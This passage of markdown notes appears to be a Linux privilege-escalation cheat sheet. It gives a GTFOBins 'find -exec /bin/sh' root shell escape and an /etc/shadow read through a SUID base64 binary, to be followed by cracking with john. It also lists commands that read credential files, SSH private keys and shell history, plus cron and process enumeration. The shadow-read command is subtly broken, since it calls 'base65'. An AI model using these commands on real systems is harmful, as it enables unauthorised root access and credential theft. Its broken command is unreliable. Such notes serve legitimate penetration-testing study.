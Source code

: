 **Exploit with GTFOBins:**

```bash
# Example
/usr/bin/find . -exec /bin/sh \; -quit
```

###### the one i found the most is 

if base64 is SUID binary

then  we can do etc shadow file read

```sh
LFILE=/etc/shadow
base65 "$LFILE" | base64 -d  #gets the contents of /etc/shadow
```

then we can **unshadow** them and crack with **john**.

---

## 📦 5. **Interesting Files with Credentials**

```bash
cat /etc/passwd
cat /etc/shadow     # If accessible
cat ~/.ssh/id_rsa
cat ~/.bash_history
grep -r "password" /home/* 2>/dev/null
```

---

## ⚙️ 6. **Scheduled Jobs (Cron Jobs)**

```bash
cat /etc/crontab
ls -la /etc/cron*
```

**Look for:**

- Writable scripts being run as root
    
- Output redirection to world-writable files
    

---

## 🛠️ 7. **Services & Processes**

```bash
ps aux
netstat -tulpn
```

- Look for root-owned processes you can interact with
    